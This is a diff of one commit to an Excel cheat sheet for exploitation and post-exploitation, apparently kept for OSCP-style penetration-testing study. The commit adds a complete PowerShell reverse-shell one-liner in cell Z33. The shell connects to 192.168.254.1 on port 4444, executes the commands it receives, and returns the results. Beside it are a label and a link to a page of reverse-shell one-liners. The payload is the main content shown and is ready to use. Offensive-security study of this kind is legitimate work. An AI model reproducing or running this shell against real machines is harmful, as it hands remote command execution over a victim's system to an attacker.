

Before and after one commit to AmatheraeWorld/AmatheraeWorld, an Excel workbook: CheatSheet.xlsm, sheet Explotacion & Post-Explotacion, drawn as a sheet; only a part is shown, gaps mark what is left out; the shorter side is filled out with more unchanged rows; values as stored, in another font and other column widths than the file's, no borders; charts and pictures not drawn; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/CheatSheet.xlsm (sheet Explotacion & Post-Explotacion)
+++ b/CheatSheet.xlsm (sheet Explotacion & Post-Explotacion)
-Z33: (empty)
+Z33: $client = New-Object System.Net.Sockets.TCPClient('192.168.254.1',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
-Z33:AB33 fill: none
+Z33:AB33 fill: #D9D9D9
-AA33: (empty)
+AA33: Powershell One Liner
-Z34: (empty)
+Z34: https://hackersinterview.com/oscp/reverse-shell-one-liners-oscp-cheatsheet/
-Z34:AB34 fill: none
+Z34:AB34 fill: #F2F2F2
-AA34: (empty)
+AA34: One Liners Shells
```
Also changed, not shown: sheet General, sheet Inyecciones.
